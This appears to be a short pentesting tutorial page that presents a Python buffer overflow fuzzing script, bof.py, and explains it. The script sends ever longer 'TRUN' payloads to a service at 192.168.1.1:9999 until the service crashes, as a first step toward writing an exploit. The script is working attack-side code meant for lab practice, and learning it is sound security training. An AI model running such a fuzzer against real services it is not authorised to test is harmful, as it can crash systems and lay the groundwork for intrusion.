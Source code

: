 ### Python Scripts for Network Tasks and Fuzzing

---

### **`bof.py` - Buffer Overflow Fuzzing Script**

```python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.1', 9999))
        s.send(('TRUN /.:/' + buffer))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100

    except:
        print("Fuzzing crashed at %s bytes" % (str(len(buffer))))
        sys.exit()
```

**Detailed Description:**
- **Purpose:**
  - This script is used for fuzzing a vulnerable service running on IP `192.168.1.1` port `9999`.
  - It helps to find the crash point of a service by sending increasing lengths of data ("A" characters) to trigger a buffer overflow.

- **Working:**
  - Starts with a buffer of 100 'A's.
  - Continuously tries to:
    - Create a TCP socket.
    - Connect to the target IP and port.
    - Send the payload to the vulnerable "TRUN" command of the service.
    - Close the socket and wait for 1 second.
    - Increase the buffer by another 100 'A's each loop.
  - If the service crashes (socket connection fails), it prints the number of bytes at which it crashed and exits.

- **Importance in Cybersecurity:**
  - Finding the crash point is the first step in building an exploit for a buffer overflow vulnerability.
  - Used heavily in penetration testing and exploit development.

- **Potential Improvements:**
  - Add command-line arguments for dynamic IP and port selection.
  - Log results to a file for later analysis.

---